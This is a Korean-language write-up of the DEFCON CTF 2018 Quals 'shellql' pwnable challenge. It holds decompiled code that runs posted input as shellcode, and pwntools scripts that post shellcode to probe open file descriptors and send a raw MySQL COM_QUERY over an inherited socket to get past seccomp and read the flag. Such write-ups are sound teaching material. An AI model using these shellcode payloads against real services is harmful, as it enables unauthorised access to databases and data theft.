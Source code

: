 ```yaml
---
layout: post
title: shellql
category: Pwnable
source: "DEFCON CTF 2018 Quals."
rpath: /resource/shellql
tag: [mysql, shellcode, cgi, COM_QUERY]
---
```


**Category**: Pwnable

**Source**: DEFCON CTF 2018 Quals.

**Points**: 118

**Author**: Jisoon Park(js00n.park)

**Description:** 

> Do you even SQL? The flag is in the table `flag`
> 
> http://ssat-ps.iptime.org:5103
> 
> [download]({{site.github.master}}{{page.rpath}}/shellme.so)

## Write-up

(*. 문제 환경을 재구성하여 풀이하였습니다.)

![img]({{page.rpath|prepend:site.baseurl}}/prob.png)

문제 사이트에 접속하면 shell을 입력하라고 한다. 뭘 입력해야 할지 모르겠는데, **debug me** 메뉴가 있으니 들어가보자.

```php
$link = mysqli_connect('localhost', 'shellql', 'shellql', 'shellql');

if (isset($_POST['shell']))
{
   if (strlen($_POST['shell']) <= 1000)
   {
      echo $_POST['shell'];
      shellme($_POST['shell']);
   }
   exit();
}
```

php-cgi [소스 코드]({{site.github.master}}{{page.rpath}}/index.php)가 보인다. 우선 shellql database에 연결을 만들고, 내가 보낸 shell을 shellme() 함수를 통해 호출하는 간단한 코드이다.

cgi니까 shelle() 함수는 첨부된 shellme.so 파일에 정의되어 있을 것 같다. IDA로 shellme.so를 열어보자.

```c
Php::Value *__fastcall shellme(Php::Value *this, __int64 *a2)
{
  __int64 v2; // rsi
  void *src; // [rsp+0h] [rbp-48h]
  __int64 v5; // [rsp+10h] [rbp-38h]
  unsigned __int64 v6; // [rsp+28h] [rbp-20h]

  v2 = *a2;
  v6 = __readfsqword(0x28u);
  ZNK3Php5Value11stringValueB5cxx11Ev(&src, v2);
  j_shell_this(src);
  Php::Value::Value(this, 1);
  if ( src != &v5 )
    operator delete(src);
  return this;
}

__int64 __fastcall j_shell_this(void *src)
{
  return shell_this(src);
}

__int64 __fastcall shell_this(void *src)
{
  size_t v1; // rbx
  void *v2; // rbp

  v1 = (signed int)strlen((const char *)src);
  v2 = mmap(0LL, v1, 7, 34, -1, 0LL);
  memcpy(v2, src, v1);
  alarm(0x1Eu);
  prctl(22, 1LL);
  return ((__int64 (*)(void))v2)();
}
```

shellme() 함수는 php에서 넘어온 파라미터를 이용하여 argument로 전달된 shell string을 복구하고 j_shell_this() 함수로 넘기는데, j_shell_this() 함수는 그냥 shell_this() 함수를 호출하는 함수이다.

shell_this() 함수는 mmap으로 메모리 구역을 설정한 후 전달받은 데이터를 복사해넣고 해당 메모리를 호출하여 실행한다.

참고로, mmap()은 아래와 같은 모양을 하고 있다.

```
void * mmap(void *start, size_t length, int prot, int flags, int fd, off_t offset);
```

메모리의 적당한 영역에 v1(src 길이)만큼의 메모리를 할당하고, RWX 권한을 부여하는데 flags는 MAP_ANONYMOUS \| MAP_PRIVATE로 설정하여 다른 프로세스와 공유되지 않도록 하였다. (MAP_ANONYMOUS라서 fd는 -1, offset은 0이다.)

prctl() 함수는 SECCOMP를 걸어주는 함수인데, prctl(PR_SET_SECCOMP, SECCOMP_MODE_STRICT)이 걸려있다. 이 모드에서는 read()/write()/exit()/sigret() syscall만 사용할 수 있다고 한다.

SECCOMP 제약만 만족하는 shellcode를 써주면 그대로 실행해주는 함수를 친절하게 제공해주니 shellcode를 잘 쓰면 될 것 같은데, native program에서 mysql을 어떻게 사용할 수 있는지가 문제에서 묻는 내용인 것 같다.

처음에 php-cgi 코드를 봤을 때는 sqli_connect() 함수를 호출하는 라인이 mysql 계정과 database를 알려주기 위해서 작성된거라고 생각해서 c의 mysql connector를 shellcode로 작성하려고 했는데, 보면 볼수록 답이 보이질 않았다.

mysql은 tcp 3306 포트를 통해 서비스 되니, 소켓 통신이 가능할지 살펴보자. seccomp 때문에 소켓을 새로 열 수는 없지만 php-cgi에서 이미 연결을 만들었으니 소켓이 열려있을 수도 있을 것 같다. linux에서는 파일이건 소켓이건 모두 file로 간주되니 소켓이 열려있다면 [file descriptor](https://en.wikipedia.org/wiki/File_descriptor)를 사용할 수 있을것이다.

```
In Unix and related computer operating systems, a file descriptor (FD, less frequently fildes) is an abstract indicator (handle) used to access a file or other input/output resource, such as a pipe or network socket.
```

알다시피, file descriptor 0, 1, 2번은 예약 되어 있고 보통 순서대로 열리니 3번 부터 write를 시도해보자.

```python
[...]

context(arch='amd64', os='linux')

#URL = 'http://b9d6d408.quals2018.oooverflow.io/cgi-bin/index.php'
URL = 'http://ssat-ps.iptime.org:5103/cgi-bin/index.php'

print "fd write test(3~9)"
fd = []
for i in range(3, 10):
	msg = "A" * 8
	payload = shellcraft.echo("Content-type: text/html\n\n", 1)		#cgi header
	payload += shellcraft.write(i, msg, len(msg))
	payload += "add eax, 48\n"
	payload += "mov [rsp], rax\n"
	payload += shellcraft.write(1, 'rsp', 1)

	data = {'shell': asm(payload)}

	res = requests.post(URL, data = data)
	if res.text == str(len(msg)):
		print "%d is alive!"%i
		fd.append(i)
```

위 코드는 3번부터 9번 fd까지에 특정 메세지를 write한 후 return value(rax)를 이용해서 write가 성공하는지 확인한다. shellcraft에서 echo나 write를 할때 rsp를 string buffer로 활용하길래 출력 buffer도 rsp를 이용하였다.

처음에는 코드를 제대로 구성한 것 같은데도 http 500 response가 오면서 출력 결과를 확인할 수 없었는데, 찾아보니 cgi 프로그램에서는 가장 먼저 [MIME-type 헤더 출력](https://httpd.apache.org/docs/trunk/ko/howto/cgi.html#writing)이 있어야 한다고 해서 추가해 주었더니 정상적으로 출력을 확인할 수 있었다. (Content-type 없이 그냥 "\n" 하나만 넣어도 정상동작한다. 그냥 빈 줄 다음에 컨텐츠가 나오는지 확인하는 것 같다.)

![img]({{page.rpath|prepend:site.baseurl}}/writable_ports.png)

코드 실행결과 3번과 4번 fd가 열려 있는 것을 확인할 수 있다.

3번 또는 4번 포트가 mysql 포트라면, query에 대한 response 수신을 위해 read도 가능해야 할 것이다.

위와 동일한 방법으로 write 후에 read도 가능한지 확인해보자.

```python
print "\nfd read test for writable ports"
for i in fd:
	msg = "A" * 8
	payload = shellcraft.echo("Content-type: text/html\n\n", 1)		#cgi header
	payload += shellcraft.write(i, msg, len(msg))
	payload += shellcraft.read(i, 'rsp', 10)
	payload += shellcraft.write(1, 'rsp', 'rax')
	
	data = {'shell': asm(payload)}

	res = requests.post(URL, data=data)
	if len(res.text) > 0:
		print "%d is available."%i
		mysql_port = i
```

![img]({{page.rpath|prepend:site.baseurl}}/readable_ports.png)

3번과 4번 포트 중에 4번 포트만 read가 가능했다. mysql은 4번 포트를 사용할 가능성이 매우 높아 보인다.

이제 4번 포트를 이용해서 mysql query를 날려보자.

[mysql documentation](https://dev.mysql.com/doc/dev/mysql-server/latest/page_protocol_connection_lifecycle.html)에 따르면 mysql protocol은 connection phase - command phase - replication phase가 있다고 한다.

connection phase는 처음 database에 접속하는 과정이며, 이 문제에서는 php-cgi에서 mysqli_connect() 함수가 실행될때 완료된다.

command phase에서는 database에 query를 날리는 과정이다. query를 날릴 때는 [COM_QUERY](https://dev.mysql.com/doc/dev/mysql-server/latest/page_protocol_com_query.html)를 이용한다고 한다. COM_QUERY는 [length \| 0x03 \| Query] 형식으로 구성되는데 length는 4 byte little endian이란다. (나중에 writeup들을 봤더니 mysql query를 wireshark로 잡아서 COM_QUERY 구조를 알아낸 팀도 있었다.)

```python
print "\nget query result"
msg = "\x03" + "select * from flag"								#COM-QUERY format
msg = p32(len(msg)) + msg
payload = shellcraft.echo("Content-type: text/html\n\n", 1)		#cgi header
payload += shellcraft.write(mysql_port, msg, len(msg))
payload += shellcraft.read(mysql_port, 'rsp', 200)
payload += shellcraft.write(1, 'rsp', 'rax')

data = {'shell': asm(payload)}

res = requests.post(URL, data=data)
pattern = re.compile(r'OOO{.+}')
print re.search(pattern, res.text).group()
```

처음에는 100 바이트만 읽었는데, flag가 짤려서 나왔다. res.text 전체를 print하면 여러 지저분한 값들이 많이 나오는데, 아마 COM_QUERY에 대한 응답 형식일 것 같으나 별 관심은 없어서 flag만 잘라내었다.

여기까지의 [코드]({{site.github.master}}{{page.rpath}}/ex.py)를 모두 실행하면 flag를 얻을 수 있다.

![img]({{page.rpath|prepend:site.baseurl}}/flag.png)

Flag : **OOO{shellcode and webshell is old news, get with the times my friend!}**
